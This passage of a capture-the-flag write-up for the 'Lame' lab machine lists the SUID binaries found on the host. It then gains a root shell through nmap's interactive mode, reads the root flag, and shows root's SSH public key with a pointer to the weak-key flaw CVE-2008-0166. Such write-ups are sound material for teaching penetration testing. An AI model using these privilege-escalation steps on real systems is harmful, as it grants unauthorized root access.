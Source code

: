 ```shell
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
```
Out of all the SUID binaries, most intresting is `nmap`. We can use [**gtfo**](https://gtfobins.github.io/gtfobins/nmap/) guidelines for nmap to escalate privileges and grab our flags.

```shell
daemon@lame:/tmp$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2# cat /root/root.txt
cat /root/root.txt
92caac3be140ef******************

```

### PrivEsc2 : Weak SSH Key

Credits to [**0xdf**](https://twitter.com/0xdf) for pointing out this privilege escalation vector.

We can see user Daemon can read contents of `root` directory except for `root.txt`. Inside `.ssh` directory we are able to read public keys file `authorized_keys`:

```shell
daemon@lame:/root/.ssh$ cat authorized_keys
cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqldJkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qOffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9IyhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7bwkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3w== msfadmin@metasploitable
```
Looking at the user as `msfadmin@metasploitable` from `authorized_keys` it might be possible that this could be vulnerable to `CVE-2008-0166` where the random number generator in OpenSSL broke for a period of time causing some SSH keys, to be brute forcible from the public key.
